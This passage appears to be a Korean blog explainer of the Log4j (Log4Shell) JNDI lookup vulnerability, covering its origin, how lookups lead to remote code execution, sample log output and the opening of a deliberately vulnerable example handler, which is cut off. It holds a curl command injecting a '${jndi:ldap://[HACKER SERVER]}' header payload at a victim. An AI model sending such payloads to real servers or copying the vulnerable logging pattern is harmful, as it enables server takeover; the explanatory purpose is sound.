 `Tomcat`, `JBoss`, `Jenkins`, `ElasticSearch`, `Hadoop`, `Kafka`, `Spark`.....



-----

## Log4j 취약점 & 동작원리

취약점은 [Log4j 2.0-beta9](https://issues.apache.org/jira/browse/LOG4J2-313)에서 부터 시작되었다. Lookup 플러그인에 JNDI를 추가하는게 업데이트 목적이였고, 추가된 JNDI를 통해 취약점이 발생하게 되어 현재 알려졌다.

문제가 되는 Log4j 라이브러리는 `log4j-core-<version>jar`이며, Log4j가 로그를 출력할 경우 <u>로그에 사용자ID등이 있을 때</u>[^3] 자동으로 내부에 운영중인 LDAP 서버등에 접속을 해서 변환하는 기능(Lookup 기능)에서 해커의 서버로 접속하여 악성코드를 서버로 다운로드 및 실행되어 서버가 탈취된다.



예를들어 로그를 남길 때 다음과 같이 남긴다고 하면

```java
log.info("Request User Agent: {}", request.getHeader("X-Api-Version"));
```

해커가 악의적으로 HTTP의 Header, X-Api-Version 값에 해커의 주소로 설정한 다음 다음과 같은 요청을 보내면 해커 위와 같은 동작원리로 인해 해커 서버로 요청을 전송하는 방식이다.

```shell
curl [Victim IP:PORT] -H 'X-Api-Version: ${jndi:ldap://[HACKER SERVER]}'
```

서버의 log4j로그를 살펴보면 다음과 같은 로그가 남아 있다. (**...WARN Error looking up JNDI resource [ldap://hacker-server]...**)

```
2021-12-12 07:19:17.375 WARN 1 --- [nio-8080-exec-1] .w.s.m.s.DefaultHandlerExceptionResolver : 
Resolved [org.springframework.web.bind.MissingRequestHeaderException: Required request header 'X-Api-Version' for method parameter type String is not present]
2021-12-12 07:19:34,650 http-nio-8080-exec-2 WARN Error looking up JNDI resource [ldap://hacker-server]. javax.naming.CommunicationException: 
hacker-server:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
```



현재 취약점은 Lookups기능 중에서도 특히 **JDNI**라는 Lookups을 이용해 공격이 가능하다.

Apache Log4j 2의 일부 기능에는 **재귀 분석 기능(Recursive Analysis Functions)**이 있기 때문에 공격자가 직접 악성 요청을 구성하여 **원격 코드 실행 취약점(RCE)**을 유발시킬 수 있어 **CVSS스코어 10점**으로 가장 높은 심각도를 나타내고 있다.

취약점 악용에는 특별한 구성이 필요하지 않으며, Alibaba Cloud 보안팀의 검증결과 Apache Struts2, Apache Solr, Apache Druid, Apache Flink 등이 모두 영향을 받는 것으로 알려있다.



재현 가능한 코드는 다음과 같다. (참조 : https://www.lunasec.io/docs/blog/log4j-zero-day/)

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {
  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

```

[^2]: 취약점 대응 패치가 배포되고 실제 서버에 적용되기 직전까지에 이루어지는 공격을 말한다.
[^3]: `log.info("Debug: {}", str)`에서 **str**이 **${env:USER}**라면 **USER**가 누군지 찾아서, `Debug: eli_ez3r`라고 문구를 완성하고 해당 문구를 출력하는 경우이다.